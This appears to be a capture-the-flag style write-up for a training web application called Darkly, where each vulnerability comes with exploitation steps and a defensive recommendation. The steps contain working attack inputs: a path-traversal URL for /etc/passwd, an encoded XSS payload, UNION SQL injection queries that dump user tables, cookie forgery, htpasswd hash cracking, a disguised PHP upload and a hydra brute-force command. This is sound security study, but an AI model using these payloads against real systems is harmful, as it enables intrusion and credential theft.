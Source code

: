 #+TITLE: Write Up for Darkly project

* Prerequesite

Lauch the VM and access to the IP indicated.

* hidden_attribute
** Vulnerability
On the page http://192.168.56.105/index.php?page=signin there is link to recover password and on this page there is an hidden form.
1. insepect the page
2. fill the form
3. click on the submit button
** Protection
 Don't use hidden tag in html for sensitive information !

* csrf_cookie
** Vulnerability
The website gives us a cookie in order to check if we are admin or not. This cookie is a simple md5 hash which means 'false'. We can replace it by the corresping hash for 'true'.
1. ~hashid 68934a3e9455fa72420237eb05902327~
2. ~echo -n "true" | md5~
3. replace cookie with the result of the echo command.
4. reload the page
** Protection
A boolean is not enough, there must be a complex system of identification by user in the backend. (and don't use explicit sentences as 'I_am_admin'). It's also important to use the 'SameSite' attribute for cookies.
* informations_leaks
** Vulnerability
By doing some fuzzing on the website, we can found the file *robots.txt* which reveals informations of the content of the site.
On the page http://192.168.56.105/whatever/ there is a *htpasswd* file.
1. ~ffuf -w ./informations_leaks/ressources/common.txt:FUZZ -u "http://192.168.56.105/FUZZ"~
2. go to http://192.168.56.105/robots.txt
3. go to http://192.168.56.105/whatever/
4. ~wget http://192.168.56.105/whatever/htpasswd~
5. use https://crackstation.net/ to decode the hash
6. go to http://192.168.56.105/admin/
7. log-in with root:dragon
** Protection
Don't store sensitive informations in the *robots.txt* file, assume that attackers will pay close attention to any locations identified in the file.
* insecure_path
** Vulnerability
 On the page http://192.168.56.105/.hidden/ found by the *robots.txt* there is some kind of labyrinth to protect the flag. But it stills vulnerable to crawling.
 1. cd ./insecure_path/ressources
 2. ~bash crawl.sh "http://192.168.56.105/.hidden/" url_1 url_2 url_3~
 3. ~grep -v "gauche\|droite\|dessus\|dessous\|aussi\|bon\|non" result.txt~
** Protection
Don't hide important informations like that. Use authentication or *htaccess* file to protect the folder.
* redirection
** Vulnerability
In the footer of the main page, the website has redirection of social media. We can change these redirection with anything we want and potentially to malicious pages.
1. change "site=facebook" by "site=google"
2. click on the link
** Protection
It's possible to check the redirection with some arrays, so it would not be possible to redirect on anything other that we predefined.
* local_file_inclusion
Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server. On any page on the website, there is an attribute *page* in the url.
** Vulnerability
1. change http://192.168.56.105/index.php?page=sigin by
http://192.168.56.105/index.php?page=../../../../../../../etc/passwd
** Protection
Use an array of valid url, the attacker will have access only to these arrays.
* idor_src
** Vulnerability
Indirect object references is a vulnerability that arises when an application uses user-supplied input to access objects directly. An image is clickable on the main page and redirect us to http://192.168.56.105/?page=media&src=nsa . There is an object tag in the page that displays the content of the src in url. We can replace the src to make an XSS request.
1. replace *src=nsa* by *src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=*
** Protection
Predefined the valid sources and don't use the input of the user.
* form_check
** Vulnerability
On the page http://192.168.56.105/index.php?page=survey there is a survey where we vote for people. By doing a vote, a POST request is made, we can change the values of this request.
1. press F12
2. vote for a person
3. go to the 'network' tab
4. edit the request and change the value by 42
5. send and look at the response
** Proection
Sanitize the input of the form in the backend and not only in the frontend !
* cors
** Vulnerability
Click on the copyright in the bottom of the page. There is some comments in the source page which give us an hint. *"You must comming from : "https://www.nsa.gov/" to go to the next step* and *the browser ft_borntosec will help you*.
We need to change the referrer and the user agent in request.
1. press F12
2. reload the page
3. edit the request, change the referrer by *"https://www.nsa.gov/"* and the user-agent by *"ft_borntosec"*
4. send and look at the response
** Protection
The referrer and the user-agent are not enough to check the validity of a request. The Cross Origin Request must be enabled and configured.
* insecure_upload
** Vulnerability
It's possible to upload an image on the page http://192.168.56.105/?page=upload . The website only check the header of the request for the uploaded file.
1. press F12
2. upload a .php file
3. change the request, *Content-Type: text/php* by *Content-Type: images/jpeg*
4. send and look at the response
** Protection
Looking at the header is not enough.
* xss_stored
** Vulnerability
On the page http://192.168.56.103/index.php?page=feedback  it's possible for the users to leave feedbacks. Any comments leads to XSS and gives the flag. This is exagerated but real XSS attacks can lead to serious threats on websites, it can steal cookies, make request for any users who visite the page ...
** Protection
SANTIZE THE INPUT ! Use appropriate response headers. To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use the Content-Type and X-Content-Type-Options headers to ensure that browsers interpret the responses in the way you intend.
* sql_injection_member
** Vulnerability
On the page http://192.168.56.105/index.php?page=member we can search users by their 'id'. If we enter a letter for example, an error is displayed which reveals that it reads sql commands.

1. 1 OR 1
2. 5 UNION SELECT database(),2
3. 5 UNION SELECT table_schema,table_name FROM information_schema.columns
4. 5 UNION SELECT table_name,column_name FROM information_schema.columns
5. 5 UNION SELECT user_id,planet FROM users
6. 5 UNION SELECT user_id,countersign FROM users
7. 5 UNION SELECT user_id,commentaire FROM users
8. ~echo -n 'fortytwo' | sha2~
** Protection
Sanitize the input of form and use parametrized queries.
Parameterized queries are a means of pre-compiling an SQL statement so that you can then supply the parameters in order for the statement to be executed. This method makes it possible for the database to recognize the code and distinguish it from input data.
* sql_injection_image
** Vulnerability
Same as *sql_injection_member* but on the page http://192.168.56.105/?page=searchimg.

1. 5 UNION SELECT table_schema,table_name FROM information_schema.columns
2. 5 UNION SELECT table_name,column_name FROM information_schema.columns
3. 5 UNION SELECT title,comment FROM list_images
4. ~echo -n 'albatroz' | sha2~
** Protection
Sanitize the input of form and use parametrized queries.
Parameterized queries are a means of pre-compiling an SQL statement so that you can then supply the parameters in order for the statement to be executed. This method makes it possible for the database to recognize the code and distinguish it from input data.
* bruteforce_login_page
** Vulnerability
There is a login page, http://192.168.56.103/index.php?page=signin. We does not know any creds so we can bruteforce it.

1. ~hydra -l admin -P /usr/share/SecLists/Passwords/Common-Credentials/top-passwords-shortlist.txt '192.168.56.103' http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif' -I -F~ We try each password in the file.txt for the username admin until the response does not containt 'WrongAnswer.gif'.
 2. log-in as admin:shadow
** Protection
Use strict policy for passwords ! Also, block the ip address who make too many requests.
